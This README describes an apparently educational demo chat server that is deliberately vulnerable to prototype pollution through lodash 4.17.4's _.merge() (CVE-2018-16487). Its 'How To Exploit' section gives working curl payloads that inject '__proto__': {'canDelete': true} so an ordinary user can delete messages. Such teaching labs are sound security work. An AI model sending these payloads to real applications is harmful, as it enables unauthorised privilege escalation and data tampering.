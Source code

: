 # Prototype Pollution in JavaScript

Prototype Pollution is a vulnerability affecting JavaScript. Prototype Pollution refers to the ability to inject properties into existing JavaScript language construct prototypes, such as objects. JavaScript allows all Object attributes to be altered, including their magical attributes such as `__proto__`, `constructor` and `prototype`. An attacker manipulates these attributes to overwrite, or pollute, a JavaScript application object prototype of the base object by injecting other values. Properties on the `Object.prototype` are then inherited by all the JavaScript objects through the prototype chain. When that happens, this leads to either denial of service by triggering JavaScript exceptions, or it tampers with the application source code to force the code path that the attacker injects, thereby leading to remote code execution.

If you want to learm more about the vulnerability you are welcome to explore [the interactive leasson](https://learn.snyk.io/lessons/prototype-pollution/javascript/) provided by Snyk.

## Example Application

This is example chat server vulnerable to Prototype Pollution.

- `GET /` - List all messages (available without authentication).
  ```bash
  curl --request GET --url http://localhost:3000/
  ```
- `PUT /` - Post a new message (only registered users).
  ```bash
  curl --request PUT \
    --url http://localhost:3000/ \
    --header 'content-type: application/json' \
    --data '{"auth": {"name": "user", "password": "pwd"}, "message": {"text": "Hi!"}}'
  ```
- `DELETE /` - Delete a message (only administrators).
  ```bash
  curl --request DELETE \
    --url http://localhost:3000/ \
    --header 'content-type: application/json' \
    --data '{"auth": {"name": "admin", "password": "???"}, "messageId": 2}'
  ```

An attacker target here is to delete message without administrator credentials.

## Run

- `npm install`
- `npm start`

## Vulnerability

The Prototype Pollution vulnerability (CVE-2018-16487) introduced by [lodash@4.17.4](https://www.npmjs.com/package/lodash/v/4.17.4) via `_.merge()` function. More details about the issue you can find on [Snyk website](https://snyk.io/vuln/SNYK-JS-LODASH-73638).

## How To Exploit

1. Send evil message with `__proto__`.
   ```bash
   curl --request PUT \
     --url http://localhost:3000/ \
     --header 'content-type: application/json' \
     --data '{"auth": {"name": "user", "password": "pwd"}, "message": { "text": "😈", "__proto__": {"canDelete": true}}}'
   ```
2. Delete any message you want using user's credentials.
   ```bash
   curl --request DELETE \
     --url http://localhost:3000/ \
     --header 'content-type: application/json' \
     --data '{"auth": {"name": "user", "password": "pwd"}, "messageId": 1}'
   ```
   
You can use Postmen for the HTTP requests.
PUT message at http://localhost:3000
{ 
	"auth": {"name": "user", "password": "pwd"},
	"message": { "text": "😈", "__proto__": {"canDelete": true}}
}

DELETE message at http://localhost:3000
{
	"auth": {"name": "user", "password": "pwd"}, 
	"messageId": 1
}
